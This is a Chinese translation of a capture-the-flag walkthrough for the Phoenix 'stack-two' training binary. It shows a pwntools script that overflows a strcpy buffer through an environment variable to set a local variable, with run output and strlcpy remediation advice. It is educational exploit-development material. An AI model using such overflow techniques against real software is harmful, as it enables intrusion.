


# 凤凰城挑战赛—堆栈二

> 原文：<https://infosecwriteups.com/phoenix-challenges-stack-two-da59b290dfa?source=collection_archive---------2----------------------->


# 挑战

挑战的描述和源代码位于[这里](http://exploit.education/phoenix/stack-two/)。它和所有其他 Phoenix 二进制文件都位于 **/opt/phoenix/amd64** 目录中。一篇[的前一篇文章](https://medium.com/@secnate/phoenix-challenges-getting-set-up-a2783e0616c6)描述了如何为这些挑战设置虚拟机，如果还没有这样做的话。

# 文件

我们使用下面的方法来检查*栈两个*文件的属性。

```
nathan@nathan-VirtualBox:/opt/phoenix/amd64$ file stack-twostack-two: setuid, setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

我们知道，像*栈一*挑战一样，*栈二*文件也有

1.  setuid 属性。它表示该程序是以所有者的权限运行的。如果文件的所有者是 root 用户(在本例中不是)，则可以使用它来提升权限
2.  符号，由**未剥离**属性指示。这意味着调试和分析二进制文件的人可以看到原始的变量和函数名
3.  在执行过程中动态链接的共享库。这有助于识别所使用的标准函数
4.  一个 **ELF 64 位 LSB 可执行文件，x86–64**。ELF 是文件格式，64 位是字长，LSB 表示它是 little-endian(首先使用最低有效字节)，并且使用 x86–64 指令集。

***剧透预警*:** 这不是巧合。*栈二*与*栈一*挑战非常相似，无论是从问题还是解决方案来看。

# 目标

查看*堆栈二的* C 代码，我们看到存储在**局部变量**结构中的 **changeme** 变量被初始化为 0。目标是篡改其值，使其等于 **0x0d0a090a** ，以便打印所需的语句。

# 相关概念

有必要了解堆栈内存是如何工作的。我在凤凰栈零挑战的[文章里写了一篇很长的解释，有兴趣的可以看看。](/phoenix-challenges-stack-zero-f8743cc871ed)

还需要了解什么是*环境变量*。它们是计算机系统的执行环境中的变量，可以配置/影响当前正在进行或将要执行的进程或程序。

虽然大多数人在使用 Linux 机器时对它们很熟悉，但它们也存在于 Windows 中。以下是 Windows 10 的一些例子:



让我们转向 Linux，因为这个挑战是在它上面运行的。Linux 环境变量或者具有**全局**或者**局部**范围:

*   **全局环境变量:**它们可以被当前的 Linux 终端以及在其中运行的任何进程、shell 脚本或程序使用。它们要么在 Linux 配置文件中定义，要么用**export<varname>=<value>**终端命令定义。
*   **本地环境变量:**它们只能被定义它们的 Linux 终端使用。即使进程或程序是在终端(定义它们的终端)中启动的，他们也不能访问它。它们是用**<varname>=<value>**终端命令定义的

# 虫子

所有*堆栈二的*数据都存储在堆栈上，其中*局部变量*结构的*缓冲区*和 *changeme* 变量是相邻的邻居。存入缓冲区的多余数据将溢出到 *changeme* 变量并影响其值。这种溢出是由 **strcpy()** 函数引起的，该函数将存储在 *ExploitEducation* 环境变量中的文本写入 *locals.buffer* 中，而不进行任何边界检查。

# 利用

输入写入的 *locals.buffer* 有 64 个字符的空间。由于 *locals.changeme* 变量最初为 0，漏洞需要篡改其内存位置，以使其具有所需的 **0x0d0a090a** 值。这是通过输入一个 64 个字符的输入字符串来完全占据缓冲区的内存，并附加额外的数据来确保 *changeme* 变量被 **0x0d0a090a** 值完全覆盖。

这个漏洞利用的过程将会很快； *Stack Two* 在各方面都与 *Stack One* challenge 相同，除了精心制作的有效载荷通过 *ExploitEducation* 环境变量而不是程序参数传递到程序中。[那些不熟悉[我对 Stack One 挑战的解决方案](https://medium.com/bugbountywriteup/phoenix-challenges-stack-one-4a9d2100274f)的人可能想回顾一下它的历史背景]

是时候利用这个漏洞了。 **exploit.py** 文件第 14 行的有效负载是

```
payload = cyclic(64) + p32(0xdeadbeef)
```

它在 **exploit.py** 文件的第 20 行被传递到 stack-two 程序的执行中

```
p = process(["stack-two"], env={ "ExploitEducation" : payload }, cwd="/opt/phoenix/amd64")
```

注意`env={"ExploitEducation":payload}`。当 Pwntools 为启动 stack-two 二进制文件创建一个新的终端进程时， **env** 字典指定 *ExploitEducation* 环境变量的值在启动时初始化。因为 **env** 字典没有其他条目，所以没有其他环境变量被初始化。 *ExploitEducation* 是一个全局环境变量，因为 *stack-two* 程序在执行时使用它。

使用 **env={ < data > }** 字典控制环境变量的值在漏洞开发和稳定过程中非常重要。这是因为环境变量位于堆栈底部，它们的长度会影响特定函数堆栈数据在可用内存区域中的位置。



如果 Pwntools 的进程启动命令中没有这样的 **env** 字典，初始化的终端进程将继承原来执行环境的环境变量。⁴许多 CTF 开发者利用这个事实来摆脱那些忘记手动控制漏洞执行环境中的环境变量的玩家。挑战主机被配置为初始化不同的环境变量。有些甚至在每次运行新程序时都初始化不同的环境变量。制造攻击移动存储位置的漏洞非常困难，如果几乎不可能的话。

> 专业提示:总是用 **env** 字典来控制已启动进程的环境变量的值！如果不需要，用 **env={}** 初始化 Pwntools 脚本中启动的进程

好的，我创建了基本的漏洞，并通过 *ExploitEducation* 环境变量将它传入。由于我控制了流程环境变量的长度和值，所以 *stack-two* 执行环境有一个稳定的堆栈。下一步是测试 **0xdeadbeef** 是否用方便包含的打印输出完全覆盖了 **changeme** 变量:

```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-two$ ./exploit.py
Launching The Stack Two Exploit!
[!] Could not find executable 'stack-two' in $PATH, using '/opt/phoenix/amd64/stack-two' instead
[+] Starting local process '/opt/phoenix/amd64/stack-two': pid 5478
[*] Switching to interactive mode
[*] Process '/opt/phoenix/amd64/stack-two' stopped with exit code 0 (pid 5478)
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0xdeadbeef, we want 0x0d0a090a
[*] Got EOF while reading in interactive
```

确实如此。最后一步是用 **0x0d0a090a** 替换有效载荷的 **0xdeadbeef** 值，看:

```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-two$ ./exploit.py
Launching The Stack Two Exploit!
[!] Could not find executable 'stack-two' in $PATH, using '/opt/phoenix/amd64/stack-two' instead
[+] Starting local process '/opt/phoenix/amd64/stack-two': pid 5485
[*] Switching to interactive mode
[*] Process '/opt/phoenix/amd64/stack-two' stopped with exit code 0 (pid 5485)
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
[*] Got EOF while reading in interactive
```

漏洞代码可以在我的 [Github 知识库](https://github.com/secnate/Exploit-Education-CTFs)中找到。

# 补救

为了防止这样的内存损坏错误，我会敦促开发人员不要用 C 编写，而要过渡到内存安全的语言，如 Python 或 Rust。

如果除了使用 C 别无选择，我会警告不要使用 [**strcpy**](https://www.geeksforgeeks.org/why-strcpy-and-strncpy-are-not-safe-to-use/) 函数从任何地方提取输入。正如刚才看到的，它继续读取输入，直到看到终止空值(' \0 ')，而不管目的缓冲区的大小。

应改为使用 [**strlcpy**](https://man.openbsd.org/strlcpy.3) 函数。它将输入写入目标缓冲区，直到达到指定的大小，并以空字符(' \0 ')终止缓冲区。

源代码的`strcpy(locals.buffer, ptr);`行将是

```
strlcpy(locals.buffer, ptr, 64);
```

目前就这些。敬请期待下一次挑战！

这篇 CTF 挑战赛的文章最初发表在内森·帕夫洛夫斯基的个人博客上: [secnate.github.io](http://secnate.github.io/)

**引文:**

[https://learn . Microsoft . com/en-us/windows/deployment/usmt/usmt-recognized-environment-variables](https://learn.microsoft.com/en-us/windows/deployment/usmt/usmt-recognized-environment-variables)

[https://www . geeks forgeeks . org/environment-variables-in-Linux-UNIX/](https://www.geeksforgeeks.org/environment-variables-in-linux-unix/)

[https://code burst . io/Linux-环境-变量-53cea0245dc9？gi=bc53be032c14](https://codeburst.io/linux-environment-variables-53cea0245dc9?gi=bc53be032c14)

https://docs.pwntools.com/en/stable/tubes/processes.html[⁴](https://docs.pwntools.com/en/stable/tubes/processes.html)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！